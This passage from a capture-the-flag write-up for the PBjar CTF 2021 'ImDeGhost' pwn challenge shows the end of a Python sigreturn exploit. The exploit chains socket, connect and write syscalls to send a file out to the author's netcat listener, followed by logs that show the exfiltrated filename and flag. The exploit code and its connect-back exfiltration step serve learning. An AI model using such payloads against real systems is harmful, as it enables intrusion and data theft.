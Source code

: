 ```python
buf += Sigreturn(0x29, 0, 0, 6, 1, 2, mem + 0x170, mem + 0xf0*3, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

# sys_connect(1, mem+0xe80, 0x10)
buf += Sigreturn(0x2a, 0, 0, 0x10, mem + 0xe80, 1, mem + 0x170, mem + 0xf0*4, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

# sys_write(1, mem + 0xb00, 0x300)
buf += Sigreturn(1, 0, 0, 0x300, mem + 0xb00, 1, mem + 0x170, mem + 0xf0*5, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

buf += b"A"*(0xe00-len(buf))
buf += b"./0101111001001101\x00"
buf += b"A"*(0xe80-len(buf))
buf += p32(0x55550002) + p32(ip_addr)
buf += b"A"*(0xf00+15-len(buf))
#pause()
s.send(buf)

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/PBjar_CTF_2021/Pwn_ImDeGhost/imdeghost$ python3 solve_filename.py r
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_ImDeGhost/imdeghost/imdeghost'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 143.198.127.103 on port 42007: Done
[*] Switching to interactive mode
Boo.

mito@ubuntu:~/Desktop$ nc -lp 21845
...
dockerenvAN(0101111001001101AAAAAA...
```

```bash
mito@ubuntu:~/CTF/PBjar_CTF_2021/Pwn_ImDeGhost/imdeghost$ python3 solve_flag.py r
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_ImDeGhost/imdeghost/imdeghost'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 143.198.127.103 on port 42007: Done
[*] Switching to interactive mode
Boo.

mito@ubuntu:~/Desktop$ nc -lp 21845
flag{aAaaaaAaaAAaAAAAaAAaAAAAaaAaaaaA}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
```

